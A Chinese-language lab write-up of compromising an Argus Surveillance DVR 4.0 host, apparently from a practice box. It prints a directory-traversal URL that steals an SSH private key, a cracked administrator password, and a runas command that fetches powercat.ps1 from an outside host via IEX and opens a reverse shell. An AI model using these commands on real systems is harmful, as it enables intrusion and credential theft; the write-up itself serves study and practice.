# 信息收集

## nmap





# web服务

可以在最上排help->About the program中找到版本号



然后我们搜索该版本存在的漏洞，存在目录穿越漏洞

[Argus Surveillance DVR 4.0.0.0 - Directory Traversal - Windows_x86 webapps Exploit](./https://www.exploit-db.com/exploits/45296)

可以成功利用



在Users下发现了两个用户



可以读取viewer用户的私钥，路径`C:/Users/viewer/.ssh/id_rsa`

完整的URL:http://192.168.160.179:8080//WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers/Viewer/.ssh/id_rsa%20&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD=%22



然后将私钥保存到本地，赋予600权限，使用ssh就可以得到viewer用户的shell

# 提权

我们在查询DVR4的漏洞时还找到一个[s3l33/CVE-2022-25012：此弱密码加密脚本的更新版本 --- s3l33/CVE-2022-25012: Updated version of this weak password encryption script](./https://github.com/s3l33/CVE-2022-25012)

DVR4用户的密码存到`C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini`

该密码可以被破解，那么肯定会有人问为什么不直接通过目录穿越读这个文件，直接读到密码然后ssh连接了，通过目录穿越读一下就知道了，是读不全的，没有下面的密码部分



使用上面给出的链接中的脚步可以破解该密码



`administrator:14WatchD0g$`

直接通过ssh连接会显示权限不足



我们先尝试一下这个密码是否是系统用户的密码



的确是，那么我们就可以通过`runas`来以`administrator`用户执行我们想要执行的命令了

通过`powercat`反弹`shell`即可

```
C:\ProgramData\PY_Software\Argus Surveillance DVR>runas /user:administrator "cmd /c powershell IEX(New-Object System.Net.WebClient).D
ownloadString('http://192.168.45.222:8000/powercat.ps1');powercat -c 192.168.45.222 -p 8002 -e cmd"                                  
Enter the password for administrator:
```

